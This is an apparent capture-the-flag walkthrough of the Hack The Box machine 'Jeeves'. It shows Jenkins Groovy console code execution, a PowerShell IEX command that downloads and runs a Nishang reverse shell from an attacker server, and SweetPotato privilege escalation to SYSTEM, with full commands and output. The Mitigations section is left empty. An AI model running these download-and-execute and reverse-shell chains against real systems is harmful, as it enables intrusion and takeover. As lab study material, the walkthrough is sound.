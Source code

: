 
# Jeeves
- Walkthrough
- Mitigrations
- References


## Jeeves

The tester starteed with an nmap scan to enumerate the host.


```
└──╼ [★]$ nmap -sC -sV -p 80,135,445,50000 10.10.10.63
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-12 12:35 GMT
Nmap scan report for jeeves.htb (10.10.10.63)
Host is up (0.18s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-12-12T17:35:46
|_  start_date: 2023-12-12T17:34:14
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 4h59m56s, deviation: 0s, median: 4h59m56s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.88 seconds

```

The scan showed that a web service was running on port 50000. The tester used ffuf to bruteforce the directories. 


```
└──╼ [★]$ ffuf -w '/home/rang3r/Documents/Tools/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'  -u http://10.10.10.63:50000/FUZZ -e .txt,.asp,.aspx,.config,.html

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.63:50000/FUZZ
 :: Wordlist         : FUZZ: /home/rang3r/Documents/Tools/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 :: Extensions       : .txt .asp .aspx .config .html 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 40ms]
    * FUZZ: askjeeves

:: Progress: [1245858/1245858] :: Job [1/1] :: 970 req/sec :: Duration: [0:23:13] :: Errors: 0 ::


```

The ffuf found the "askjeeves" directory. The endpoint is running the jenkins service. Jenkins has a script console that allows user to run "groovy" scripts on the server.


insert image of console---------------------


The tester used the following scipt to test code execution:

```
def process = "whoami".execute()
print "Output: " + process.text
print "Exit code: " + process.exitValue()
```

Which returned:

```
Result

Output: jeeves\kohsuke
Exit code: 0
```

The tester next gained a shell on the host by downloading and invoking a powershell shell. The Tester used the nishang tool set that contained a series of powershell shells. The tester set up a HTTP server using python and a Netcat listener then used the beolow script to download and run the shell.

```
def process = "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.6:8083/Invoke-PowerShellTcp.ps1')".execute()
print "Output: " + process.text
print "Exit code: " + process.exitValue()
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8084
listening on [any] 8084 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.63] 49680
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins>hostname
Jeeves
PS C:\Users\Administrator\.jenkins> whoami
jeeves\kohsuke
PS C:\Users\Administrator\.jenkins> 
```

This gave access to the host as the "kohsuke" user. The tester checked the users privileges and found that the user had the SeImpersonatePrivilege privilege. This privilege allows a user to imperonate process tokens.


```
PS C:\Users\Administrator\.jenkins> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
PS C:\Users\Administrator\.jenkins> 
```

The tester used the "sweetpotato" binary to exploit this vulnerability and get system. The tester used another HTTP server to download the binary.


```
PS C:\users\public\music> wget "http://10.10.14.8:8080/SweetPotato.exe" -outfile "/users/public/music/sweetpotato.exe"
```

```
┌──(kali㉿kali)-[~/…/tools/priv_esc/windows/binaries]
└─$ python -m http.server 8080                                
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.10.63 - - [23/Dec/2023 18:03:34] code 404, message File not found
10.10.10.63 - - [23/Dec/2023 18:03:34] "GET /sweetpotato.exe HTTP/1.1" 404 -
10.10.10.63 - - [23/Dec/2023 18:03:56] "GET /SweetPotato.exe HTTP/1.1" 200 -

```
Once the binary had been downloaded the tester tested the exploit by running the "whoami" command with it which return the system account. The tester used the same process used previouly to get get a system shell. 

```
PS C:\users\public\music> wget "http://10.10.14.8:8080/SweetPotato.exe" -outfile "/users/public/music/sweetpotato.exe"
PS C:\users\public\music> ./sweetpotato.exe -a whoami
Modifying SweetPotato by Uknow to support webshell
Github: https://github.com/uknowsec/SweetPotato 
SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
[+] Attempting NP impersonation using method PrintSpoofer to launch c:\Windows\System32\cmd.exe
[+] Triggering notification on evil PIPE \\Jeeves/pipe/1b14b892-4acd-461d-8f4d-30d7665e1b02
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] CreatePipe success
[+] Command : "c:\Windows\System32\cmd.exe" /c whoami 
[+] process with pid: 3212 created.

=====================================

nt authority\system


[+] Process created, enjoy!
PS C:\users\public\music> 

```
The tester ran the download and invoke command using the exploit binary which gave a system shell.
```
PS C:\users\public\music> ./sweetpotato.exe -a "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.8:8080/Invoke-PowerShellTcp.ps1')"  
```


```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8085        
listening on [any] 8085 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.63] 49688
Windows PowerShell running as user JEEVES$ on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
PS C:\Windows\system32> hostname
Jeeves
PS C:\Windows\system32> 
```


## Mitigations 

## References
https://github.com/uknowsec/SweetPotato
https://github.com/samratashok/nishang

